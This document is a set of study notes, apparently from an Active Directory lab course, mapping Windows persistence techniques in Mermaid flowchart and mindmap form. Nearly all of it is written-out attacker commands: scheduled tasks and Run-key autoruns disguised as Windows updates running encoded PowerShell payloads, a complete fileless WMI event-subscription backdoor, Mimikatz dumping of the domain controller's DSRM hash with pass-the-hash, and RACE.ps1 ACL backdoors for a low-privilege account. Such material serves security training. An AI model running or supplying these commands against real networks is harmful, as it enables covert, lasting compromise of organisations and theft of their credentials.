


# Persistence Techniques — Scheduled Tasks, WMI Events, Registry & More

## Attack Path

```mermaid
flowchart TD
    START(["🔑 DA or Local Admin\non target machine"])

    subgraph schtask["Path A: Scheduled Tasks"]
        ST1["Create scheduled task\nschtasks /create /tn 'WindowsUpdate'\n/tr 'powershell.exe -enc PAYLOAD'\n/sc daily /st 09:00\n/ru SYSTEM\n/s dcorp-dc /u admin /p pass"]
        ST2["OR PowerShell cmdlet\n$action = New-ScheduledTaskAction\n-Execute 'powershell.exe'\n-Argument '-enc PAYLOAD'\n$trigger = New-ScheduledTaskTrigger -Daily -At 9am\nRegister-ScheduledTask -TaskName 'WinUpdate'\n-Action $action -Trigger $trigger\n-RunLevel Highest"]
        ST3["Run immediately\nschtasks /run /tn 'WindowsUpdate'"]
        ST4["✅ Persistent task\nruns as SYSTEM on schedule"]
    end

    subgraph reg["Path B: Registry Autoruns"]
        R1["HKLM Run key (system-wide)\nReg add 'HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run'\n/v WinHelper /t REG_SZ\n/d 'powershell.exe -enc PAYLOAD'"]
        R2["HKCU Run key (user-specific)\nReg add 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run'\n/v WinHelper /t REG_SZ\n/d 'powershell.exe -enc PAYLOAD'"]
        R3["Runs on next\nuser logon or system start"]
        R4["✅ Persistent on login"]
    end

    subgraph wmi_per["Path C: WMI Event Subscriptions"]
        WM1["Three components required:\n1. EventFilter (trigger condition)\n2. EventConsumer (action)\n3. FilterToConsumerBinding (link)"]
        WM2["Create via PowerShell\n$filter = Set-WmiInstance -Namespace root\\subscription\n-Class __EventFilter\n-Arguments @{Name='TimerFilter'\nQuery='SELECT * FROM __InstanceModificationEvent WITHIN 60\nWHERE TargetInstance ISA Win32_LocalTime\nAND TargetInstance.Seconds = 0'}"]
        WM3["$consumer = Set-WmiInstance\n-Class CommandLineEventConsumer\n-Namespace root\\subscription\n-Arguments @{Name='TimerConsumer'\nCommandLineTemplate='powershell.exe -enc PAYLOAD'}"]
        WM4["$binding = Set-WmiInstance\n-Class __FilterToConsumerBinding\n-Namespace root\\subscription\n-Arguments @{Filter=$filter Consumer=$consumer}"]
        WM5["✅ Fileless persistence\nNo registry/disk artifacts\nRuns every minute\nSurvives reboots"]
    end

    subgraph dsrm_per["Path D: DSRM (DC-specific)"]
        DS1["DSRM = Directory Services Restore Mode\nBreak-glass account on every DC"]
        DS2["Dump DSRM hash\nInvoke-Mimikatz\nlsadump::lsa /patch\nLook for .\\Administrator account"]
        DS3["Enable DSRM logon over network\nReg add\n'HKLM\\System\\CurrentControlSet\\Control\\LSA'\n/v DSRMAdminLogonBehavior /t REG_DWORD /d 2"]
        DS4["PTH with DSRM hash\nsekurlsa::pth /domain:dcorp-dc\n/user:Administrator /ntlm:DSRM_HASH"]
        DS5["✅ Local admin on DC\nDSRM hash never changes\nuntil manually reset\nPersists across domain password changes"]
    end

    subgraph sd_per["Path E: Security Descriptor Backdoors (RACE.ps1)"]
        SD1["Add non-admin user to\nWMI/PSRemoting/Registry ACLs\nRACE.ps1 functions"]
        SD2["Set-RemoteWMI\n-UserName studentx\n-ComputerName dcorp-dc\nGrants WMI access without admin"]
        SD3["Set-RemotePSRemoting\n-UserName studentx\n-ComputerName dcorp-dc\nGrants PSRemoting without admin"]
        SD4["Add-RemoteRegBackdoor\n-UserName studentx\n-ComputerName dcorp-dc\nGrants registry query rights"]
        SD5["studentx can now:\nQuery WMI remotely\nPSRemote to DC\nRead registry hives\n(without DA)"]
        SD6["✅ Stealthy persistent access\nNo group membership change\nLooks like normal config"]
    end

    START --> ST1 --> ST2 --> ST3 --> ST4
    START --> R1 & R2 --> R3 --> R4
    START --> WM1 --> WM2 --> WM3 --> WM4 --> WM5
    START --> DS1 --> DS2 --> DS3 --> DS4 --> DS5
    START --> SD1 --> SD2 & SD3 & SD4 --> SD5 --> SD6

    style START fill:#4CAF50,color:#fff
    style ST4 fill:#9C27B0,color:#fff
    style WM5 fill:#9C27B0,color:#fff
    style DS5 fill:#9C27B0,color:#fff
    style SD6 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((Persistence))
    Scheduled Tasks
      schtasks /create
        /ru SYSTEM
        /sc ONSTART or DAILY
        Remote: /s /u /p
      PowerShell
        New-ScheduledTaskAction
        Register-ScheduledTask
      Stealthier names
        WindowsUpdate
        SvcHost
        MicrosoftEdge
    Registry Autoruns
      HKLM Run
        System-wide
        Requires admin
      HKCU Run
        User-specific
        No admin needed
      Triggers on
        System boot (HKLM)
        User logon (HKCU)
    WMI Subscriptions
      Fileless
        Nothing on disk
        Stored in WMI repository
      Components
        EventFilter (when)
        EventConsumer (what)
        FilterToConsumerBinding
      Survives reboots
      Hard to detect/clean
    DSRM (DC only)
      Break-glass account
        Every DC has it
        lsadump::lsa /patch
      Enable network logon
        DSRMAdminLogonBehavior = 2
      PTH with DSRM hash
        Hash never expires
        Survives domain resets
    Security Descriptors
      RACE.ps1
        Set-RemoteWMI
        Set-RemotePSRemoting
        Add-RemoteRegBackdoor
      No group change
        Invisible to DA enum
        ACL-level only
      Backdoor accounts
        studentx persistent access
        No DA needed after setup
```
